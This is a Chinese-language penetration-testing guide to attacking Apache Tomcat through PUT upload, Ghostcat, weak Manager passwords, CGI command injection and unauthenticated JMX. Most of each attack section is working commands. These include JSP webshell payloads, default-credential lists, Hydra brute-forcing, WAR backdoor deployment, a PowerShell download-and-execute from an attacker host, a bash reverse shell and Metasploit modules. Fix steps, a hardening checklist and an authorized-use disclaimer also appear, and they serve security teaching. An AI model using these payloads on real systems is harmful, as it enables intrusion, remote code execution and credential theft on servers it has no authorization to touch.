



## 概述

Apache Tomcat 是 Java 生态中使用最广泛的 Servlet 容器，常见于企业内网与生产环境。由于老旧版本、错误配置、弱密码及未修复漏洞，Tomcat 在渗透测试中经常成为失陷的第一入口。本文覆盖以下攻击面：

| 漏洞/攻击 | 端口 | 危害 |
|-----------|------|------|
| CVE-2017-12615 PUT 上传 | 8080/8443 | 写入 JSP WebShell |
| CVE-2020-1938 Ghostcat | 8009 | 读取 WEB-INF 配置、文件包含 RCE |
| Manager App 弱口令 | 8080/8443 | WAR 包部署 WebShell |
| CVE-2019-0232 CGI RCE | 8080/8443 | Windows 命令执行 |
| JMX 未授权 | 1099 | MLet 远程类加载 RCE |



---

## CVE-2017-12615 — PUT 方法任意文件上传

### 影响范围

Tomcat 7.0.0 — 7.0.79（Windows）/ 7.0.0 — 7.0.81（Linux，需 `readonly=false`）

### 原理

`DefaultServlet` 的 `readonly` 默认 `true` 禁止 PUT。但在 Windows 下，即使 `readonly=true`，利用 NTFS 流特性（`::$DATA`）或路径末尾特殊字符，仍可绕过路径校验写入 JSP 文件。

### 检测

```bash
curl -X PUT http://target:8080/test.txt -d "hello"
curl -X OPTIONS http://target:8080/ -v 2>&1 | grep "Allow"
```

### 上传 WebShell

```bash
# Windows ::$DATA 绕过
curl -X PUT http://target:8080/shell.jsp::$DATA \
  -d '<%@page import="java.io.*"%><%Process p=Runtime.getRuntime().exec(request.getParameter("cmd"));InputStream in=p.getInputStream();int a;while((a=in.read())!=-1){out.print((char)a);}%>'

# 尾部 / 绕过
curl -X PUT http://target:8080/shell.jsp/ -d '<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>'

# %20 空格绕过
curl -X PUT http://target:8080/shell.jsp%20 -d '<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>'
```

### Metasploit

```bash
msf6 > use exploit/multi/http/tomcat_jsp_upload_bypass
msf6 > set RHOSTS target
msf6 > run
```

**修复：** 升级至 7.0.82+/8.0.47+/8.5.22+/9.0.1+，确保 `readonly=true`。

---

## CVE-2020-1938 (Ghostcat) — AJP 文件读取

### 影响范围

Tomcat 6.x / 7.x < 7.0.100 / 8.x < 8.5.51 / 9.x < 9.0.31

### 原理

AJP 协议默认监听 8009 端口，用于 Apache 与 Tomcat 间反向代理通信。AJP 连接器在处理请求时未正确校验路径，攻击者可构造 AJP 报文读取 `/WEB-INF/web.xml` 等受保护路径下的文件。若应用中存在文件上传点，还可通过文件包含实现远程代码执行。

### 检测

```bash
nmap -p 8009 -sV target
ncat target 8009 <<< "" | xxd
```

### PoC

```bash
# 读取 web.xml 获取应用配置、数据库密码等
python3 ghostcat.py -f /WEB-INF/web.xml target 8009
# 读取 class 文件
python3 ghostcat.py -f /WEB-INF/classes/AppConfig.class target 8009
```

### RCE 利用链

```
AJP 读取 WEB-INF/web.xml → 获取 Servlet 映射/类路径 → 读取数据库密码/密钥
→ 若存在文件上传 → 上传恶意文件 → Ghostcat 以 JSP 方式包含 → RCE
```

**修复：** 升级至 9.0.31+/8.5.51+/7.0.100+；若不使用 AJP，注释 `server.xml` 中 AJP Connector；若使用则配 `secretRequired="true"` 并限定 `address="127.0.0.1"`。

---

## Manager App 弱口令与 WAR 部署

### 攻击面

- `/manager/html` — 管理应用
- `/host-manager/html` — 虚拟主机管理
- `/manager/text` — 脚本接口（用于 curl 操作）

在 `tomcat-users.xml` 配置了 `manager-gui` / `manager-script` 角色且使用弱密码时，攻击者可完全控制 Web 应用部署。

### 常见弱口令

```bash
admin:admin ;; admin:tomcat ;; tomcat:tomcat
tomcat:s3cret ;; manager:manager ;; role1:tomcat
```

### 爆破

```bash
# Hydra
hydra -L users.txt -P pass.txt target http-get /manager/html

# Metasploit
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 > set RHOSTS target; set RPORT 8080
msf6 > run
```

### 制作并部署 WAR 后门

```bash
# 1. 创建 index.jsp
cat > index.jsp << 'EOF'
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
EOF

# 2. 打包 WAR
jar -cvf shell.war index.jsp

# 3. 通过 manager/text 接口部署
curl -u admin:tomcat -X PUT -F "file=@shell.war" \
  http://target:8080/manager/text/deploy?path=/shell

# 4. 访问 WebShell
curl http://target:8080/shell/index.jsp?cmd=whoami

# 5. 清理
curl -u admin:tomcat \
  http://target:8080/manager/text/undeploy?path=/shell
```

### Metasploit 一键利用

```bash
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 > set HttpUsername admin; set HttpPassword tomcat
msf6 > run  # 自动部署 WAR 并获取 Meterpreter
```

**修复：** 删除 manager/host-manager 应用；强密码；在 `META-INF/context.xml` 中用 `RemoteAddrValve` 限制来源 IP。

---

## CVE-2019-0232 — CGI Servlet RCE（仅 Windows）

### 影响范围

Tomcat 7.0.0 — 7.0.93 / 8.5.0 — 8.5.39 / 9.0.0.M1 — 9.0.17（需 `web.xml` 中配置 `enableCmdLineArguments="true"`）

### 原理

CGI Servlet 调用 `Runtime.exec()` 时将命令行参数传递给 `cmd.exe`。若 `enableCmdLineArguments=true`，攻击者可通过 CGI 脚本的查询字符串注入 `&` 连接符，追加任意系统命令：

```
cmd.exe /c "script.bat & evil_command"
```

### 利用

```bash
# 注入 dir 命令
curl "http://target:8080/cgi-bin/hello.bat?&dir+C:\"

# PowerShell 反弹 Shell
curl "http://target:8080/cgi-bin/hello.bat?&powershell+-c+IEX(New-Object+Net.WebClient).DownloadString('http://attacker/rev.ps1')"
```

**修复：** 升级至 9.0.18+/8.5.40+/7.0.94+；禁用 `enableCmdLineArguments`；移除不必要的 CGI Servlet。

---

## JMX 未授权 — MLet RCE

### 原理

JMX 通过 RMI 注册表默认监听 **1099** 端口，用于 JVM 运行时管理。若未启用认证，攻击者通过 JMX 连接创建 `javax.management.loading.MLet` 实例，调用 `getMBeansFromURL` 从攻击者 HTTP 服务器下载恶意 JAR 并实例化 MBean，实现远程代码执行。



### 检测

```bash
nmap -p 1099 --script=rmi-dumpregistry target
jconsole target:1099
```

### 利用

```bash
# mjet 工具
python3 mjet.py --target target --port 1099 --cmd "bash -i >& /dev/tcp/attacker/4444 0>&1"

# mlet.html 内容
# <html><mlet code="EvilMBean" archive="http://attacker:8080/evil.jar"
#       name="evil:name=evil"></mlet></html>

# Metasploit
msf6 > use exploit/multi/misc/java_jmx_server
msf6 > set RHOSTS target; set RPORT 1099
msf6 > run
```

**修复：** 启用 JMX 认证与 SSL；`-Dcom.sun.management.jmxremote.host=127.0.0.1`；`password.file` / `access.file` 配置。

---

## 综合攻击流程图



---

## 防御加固清单

| 类别 | 措施 |
|------|------|
| 版本 | 升级至最新稳定版，定期关注 CVE |
| 网络 | AJP/JMX 仅监听 127.0.0.1；对外仅暴露 HTTP/HTTPS |
| 权限 | 移除 tomcat-users.xml 管理角色；Manager Apps 强密码或直接卸载 |
| 配置 | 禁用 PUT/DELETE；`readonly=true`；关闭 `enableCmdLineArguments` |
| 监控 | 监控 `/manager/*` 异常访问与 401 日志；PUT 方法白名单 |
| WAF | 限制 HTTP 方法；检测 AJP 异常流量特征 |

---

## 免责声明

> 本文所述技术仅供安全研究与授权测试使用。任何未经授权的渗透测试、入侵或破坏行为均属违法，由此产生的法律责任由行为人自行承担，作者与平台不承担任何责任。

安全测试前请确保：已获系统所有者书面授权、测试范围明确界定、遵守当地法律法规、测试数据妥善处理并销毁。**未授权渗透测试属于违法行为。**
